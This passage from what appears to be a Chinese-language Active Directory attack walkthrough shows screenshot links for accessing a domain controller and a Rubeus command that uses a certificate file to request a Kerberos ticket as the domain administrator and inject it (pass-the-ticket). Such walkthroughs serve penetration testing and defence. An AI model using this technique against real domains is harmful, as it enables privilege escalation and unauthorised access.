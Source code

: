 [![](assets/1701606771-6cdc7b36fbcf187cd3057b744fe58496.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106145243-15da36ec-7c71-1.png)  
Step 3：尝试访问域控  
[![](assets/1701606771-d7b1b8f8d2ca638f3e9c6edda1f9c1ce.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106145258-1ea9e718-7c71-1.png)  
Step 4：利用 Rubeus 请求票证，并将生成的票证用于 PTT

```bash
Rubeus.exe asktgt /user:administrator /certificate:ADM.pfx /password:123456 /ptt
```
